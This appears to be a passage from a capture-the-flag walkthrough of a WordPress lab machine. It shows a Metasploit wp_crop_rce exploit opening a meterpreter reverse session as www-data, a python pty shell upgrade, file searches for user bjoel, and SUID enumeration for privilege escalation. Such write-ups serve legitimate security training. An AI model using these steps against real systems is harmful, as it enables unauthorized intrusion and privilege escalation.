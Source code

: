 
this is prefect. let hope that it work if it works: (it didnt work at the first 4 tries, keep getting `[-] Exploit failed: An exploitation error occurred. [*] Exploit completed, but no session was created.` then I decided to update my msfconsole)


how to set all the options? [read this](https://www.rapid7.com/db/modules/exploit/multi/http/wp_crop_rce) run `show options` to check all the options. **Remember** to set `LHOST`


YEAH we are in
```console
meterpreter > shell
Process 1542 created.
Channel 1 created.
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
which python
/usr/bin/python
```
now let spawn tty using python ```python -c 'import pty; pty.spawn("/bin/sh")'``` sad tho, we dont know www-data cant ```sudo -l```
I found user.txt but... there is no flag! just message
```
$ cat /home/bjoel/user.txt
cat /home/bjoel/user.txt
You won't find what you're looking for here.

TRY HARDER
```
Bitch pls, now let try to get all files owned by `bjoel`
```console
$ find / -user bjoel 2> /dev/null
find / -user bjoel 2> /dev/null
/home/bjoel
/home/bjoel/.gnupg
/home/bjoel/.cache
/home/bjoel/.sudo_as_admin_successful
/home/bjoel/Billy_Joel_Termination_May20-2020.pdf
/home/bjoel/user.txt
/home/bjoel/.bashrc
/home/bjoel/.profile
/home/bjoel/.bash_logout
/media/usb
```
okey im sure that flag is in `/media/usb`


next try to check SUID
```console
$ find / -user root -perm -4000 -exec ls -ldb {} \; 2> /dev/null
find / -user root -perm -4000 -exec ls -ldb {} \; 2> /dev/null
-rwsr-xr-x 1 root root 59640 Mar 22  2019 /usr/bin/passwd
-rwsr-xr-x 1 root root 40344 Mar 22  2019 /usr/bin/newgrp
-rwsr-xr-x 1 root root 75824 Mar 22  2019 /usr/bin/gpasswd
-rwsr-xr-x 1 root root 44528 Mar 22  2019 /usr/bin/chsh
-rwsr-xr-x 1 root root 37136 Mar 22  2019 /usr/bin/newuidmap
-rwsr-xr-x 1 root root 22520 Mar 27  2019 /usr/bin/pkexec
-rwsr-xr-x 1 root root 76496 Mar 22  2019 /usr/bin/chfn
-rwsr-xr-x 1 root root 149080 Jan 31 17:18 /usr/bin/sudo
-rwsr-xr-x 1 root root 37136 Mar 22  2019 /usr/bin/newgidmap
-rwsr-xr-x 1 root root 18448 Jun 28  2019 /usr/bin/traceroute6.iputils
-rwsr-sr-x 1 root root 8432 May 26 18:27 /usr/sbin/checker
-rwsr-xr-x 1 root root 100760 Nov 23  2018 /usr/lib/x86_64-linux-gnu/lxc/lxc-user-nic
-rwsr-xr-- 1 root messagebus 42992 Jun 10  2019 /usr/lib/dbus-1.0/dbus-daemon-launch-helper
-rwsr-sr-x 1 root root 109432 Oct 30  2019 /usr/lib/snapd/snap-confine
-rwsr-xr-x 1 root root 14328 Mar 27  2019 /usr/lib/policykit-1/polkit-agent-helper-1
-rwsr-xr-x 1 root root 436552 Mar  4  2019 /usr/lib/openssh/ssh-keysign
```